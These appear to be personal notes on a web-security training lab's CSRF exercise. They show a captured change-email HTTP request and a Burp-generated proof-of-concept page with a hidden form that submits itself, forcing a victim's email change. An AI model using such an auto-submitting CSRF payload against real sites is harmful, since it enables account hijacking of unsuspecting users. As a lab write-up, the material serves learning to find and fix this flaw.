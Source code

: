 # Encounters with CSRFs

# Without any defenses
Get the victim to change their email address to one of your choosing. 
## Observations
- Can login with default user. 
- Can change email address of my user without any CSRF token. 
- Used Burp's generate CSRF function to craft a CSRF and sent it through. 
Original request:
```
POST /my-account/change-email HTTP/2
Host: 0ac200e90406e4b08037f85a001000a1.web-security-academy.net
Cookie: session=ex1py4NfnBdRM2JAHHD785lrMuIkZ9SG
Content-Length: 22
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Origin: https://0ac200e90406e4b08037f85a001000a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac200e90406e4b08037f85a001000a1.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=test%40email.com
```
Payload:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac200e90406e4b08037f85a001000a1.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
